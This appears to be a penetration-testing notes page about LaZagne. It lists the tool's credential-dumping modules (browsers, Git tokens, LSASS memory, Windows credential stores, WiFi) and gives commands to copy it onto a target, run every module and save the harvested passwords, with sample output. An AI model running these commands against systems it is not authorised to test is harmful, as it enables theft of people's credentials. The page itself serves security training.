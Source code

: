 **LaZagne** is a powerful tool with **60+ modules** targeting different software for password extraction.

#### Core Module Categories

| Module | Description | Software Targets |
|--------|-------------|------------------|
| **browsers** | Web browser saved passwords | Chrome, Firefox, Edge, Opera, Safari |
| **chats** | Chat application credentials | Skype, Discord, Telegram |
| **databases** | Database connection strings | MySQL, PostgreSQL, SQLite |
| **games** | Gaming platform credentials | Steam, Battle.net |
| **git** | Git repository credentials | GitHub, GitLab tokens |
| **mail** | Email client passwords | Outlook, Thunderbird |
| **memory** | In-memory password dumps | KeePass, LSASS |
| **multimedia** | Media application creds | VLC, Spotify |
| **php** | PHP application passwords | Composer, PHPMyAdmin |
| **svn** | Subversion credentials | TortoiseSVN |
| **sysadmin** | System administration tools | WinSCP, PuTTY, OpenVPN, FileZilla |
| **windows** | Windows credential stores | Credential Manager, LSA Secrets |
| **wifi** | Wireless network passwords | Saved WiFi profiles |

#### LaZagne Usage

```bash
# Transfer LaZagne to target (via RDP copy/paste or file transfer)
# Download from: https://github.com/AlessandroZ/LaZagne

# Run all modules
C:\temp> LaZagne.exe all

# Verbose output to see what's happening
C:\temp> LaZagne.exe all -vv

# Target specific modules
C:\temp> LaZagne.exe browsers
C:\temp> LaZagne.exe sysadmin
C:\temp> LaZagne.exe windows

# Output to file
C:\temp> LaZagne.exe all -oN results.txt
```

#### Example LaZagne Output
```
|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

########## User: bob ##########

------------------- Winscp passwords -----------------
[+] Password found !!!
```